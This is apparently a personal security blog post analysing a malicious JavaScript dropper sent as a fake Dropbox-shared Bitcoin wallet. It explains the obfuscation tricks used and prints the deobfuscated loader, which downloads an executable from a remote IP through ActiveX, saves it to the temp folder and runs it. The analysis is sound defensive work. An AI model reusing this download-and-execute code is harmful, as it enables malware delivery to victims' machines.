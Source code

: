 ```yaml
---
layout: post
title:  "Reverse-engineering an obfuscated JavaScript file and lessons learnedYesterday, I got an email from Dropbox saying that somebody had shared their Bitcoin wallet with me."
date:   2016-05-26 17:43:17 +0200
categories: sec
---
```


![](dropbox-btc-backup-js-deobfs.png)

This looks like an accident, right? And too good to be true? Probably is.

Email appeared to really come from Dropbox. The sending IP was allowed by the SPF policies (of course, that's no guarantee, but that's not what I wanted to spend time on).

I got curious and downloaded the file. It had the `.zip` file extension but turned out to actually be a RAR-archive (weird). I unrar-ed it and got two files, one `.js` and one `.exe`. I decided to take a look on the JavaScript file, never having de-obfuscated JavaScript before. 

## Some JavaScript sourcery used. 

The obfuscated code relies on JavaScript idiosyncrasies, most of which were unfamiliar to me, since I'm not a JS developer.

In JavaScript, you can call methods on objects with `instance["method"]()`, allowing you to pass the method name as data. After discovering the encryption-function, this was a common pattern.

{% highlight javascript %}
→ "string".substr(0, 1)
← "s"
→ "string"["substring"](0, 1)
← "s"

← "string".length
← 6
→ "string"["length"]
← 6
{% endhighlight %}

In fairness to JavaScript, most other interpreted languages have this as well (for Python, see `__getattr__`). 

There were a lot of functions with random names (e.g. `bCCg()`) that accepted no arguments but returned one character only. Sometimes they had wrapped the character inside an array and returned a specific element of the array. Example:

{% highlight javascript %}
function bCCg() {
   var ZRZQ = [(9), "f", 4][1];
   return ZRZQ;
}

// Rewritten to
function bCCg() { return "f"; }
{% endhighlight %}

which translates to simply returning returning `"f"`.

Another JS-"feature" that was used to hide data was concatenating (using the `+` operator) a tuple and a string. In JS, of course the last element of the string is concatenated to the string the tuple of concatenated to. Oh, and if it happens to be an integer, it's implicitly parsed to it's string representation. This all makes total sense, right? 

In case it doesn't, here's an example.

{% highlight javascript %}
→ "H" + (7, 6, 5, 3, 1, "i)
← "Hi"
→ "You are number" + ("One", 1)
← "You are number 1"
{% endhighlight %}

And an example usage is the function that started out as 

{% highlight javascript %}
function YWzqkGP() {
    var fTnKjVj = [UHRF() + "h" + prLEsog() + hiz()];
    var YfMUj = [ekYr() + CfK() + "d" + xoHWF() + "A" + "t"];
    var ZQGc = fTnKjVj[0] + YfMUj[0];
    return ZQGc;
}
{% endhighlight %}

After cleaning it up, it looks like this. 

{% highlight javascript %}
function YWzqkGP() {
    var a = "char";
    var b = "C" + (9299, 6662, 8019, 8743, 5179, 5958, 4605, 3648, 7468, 7969, "o") + "d" + "e" + "A" + "t";
    return a + b;
}
{% endhighlight %}

It should be obvious that `YWzqkGP()` is just a very complicated way of writing `"charCodeAt"`.

A lot time is spent maximizing the code length. This example is *AFTER* cleaning up the tricks described above. 

{% highlight javascript %}
function EilkPvf(a) {
    return ["f", "r", "o", "m", "C", "h", "a", "r", "C", "o", "d", "e"][a];
}

function rFeBmU() {
    return EilkPvf(0) + EilkPvf(1) + EilkPvf(2) + EilkPvf(3) + EilkPvf(4) + EilkPvf(5) + EilkPvf(6) + EilkPvf(7) + EilkPvf(8) + EilkPvf(9) + EilkPvf(10) + EilkPvf(11);
}
{% endhighlight %}

We see that all calls to `rFeBmU()` can be replace with `"fromCharCode"`. Smells like code, probably to be injected with the `instanceName["methodName"]` method.

## What is it trying to do? 

This obfuscated javascript features a fairly complicated encryption function, which I have not yet reverse engineered.

Instead, I isolated it and fed the encrypted strings to it to decrypt them. Seemed easier. This line was interesting to me

{% highlight javascript %}
→ pulPiZ("0160500490551240911021201030991051250880790 [CUTOFF] 018029");
← "http://[REDACTED].103/dma_lockoader_Crypt.exe"
{% endhighlight %}

The code is trying to load [WScript](https://msdn.microsoft.com/en-us/library/at5ydy31%28v=vs.84%29.aspx)) via ActiveX, which according to the documentation can "output information to the default output device (either a Windows dialog box or the command console)". 

After de-obfuscating the last big function, this is what I ended up with.

{% highlight javascript %}
function GMU(rtwjdld, kdkndmd) {}
function JqyQ() {
	var wscripteval = eval("WScript");
	var scriptfullname = wscripteval["ScriptFullName"];
	var activex_object = new ActiveXObject("MSXML2.XMLHTTP");
	activex_object["send"]();

    if (typeof WScript["echo"] == "unknown") {
		activex_object.open("GET", "http://[REDACTED].103/dma_lockoader_Crypt.exe", 0);
	}

    var fsobj = new ActiveXObject("Scripting.FileSystemObject");
	if (activex_object["Status"] == 200) {
		var adodb_stream = new ActiveXObject("ADODB.Stream");
		var path_probably = fsobj["GetSpecialFolder"](2) + '\\' + fsobj["GetTempName"]();
		adodb_stream["Open"]();
		adodb_stream["Type"] = 1;
		var wscript_shell = new ActiveXObject("WScript.Shell");
		var response_body = activex_object["ResponseBody"];
		adodb_stream["Write"](response_body);

        adodb_stream["Position"] = 0;
        adodb_stream["SaveToFile"](path_probably);             
                     

		adodb_stream["Close"]();
        wscript_shell["run"]("cmd /c " + path, 0);
	}
	GMU(fsobj, scriptfullname);
}

{% endhighlight %}

They are trying to download a `.exe` file, save it and execute it. How classic. I have on idea what the purpose of the `GMU` function is though.

## Aftermath

I contacted Dropbox and the hosting provider in the WHOIS record for the IP address in the URL. 

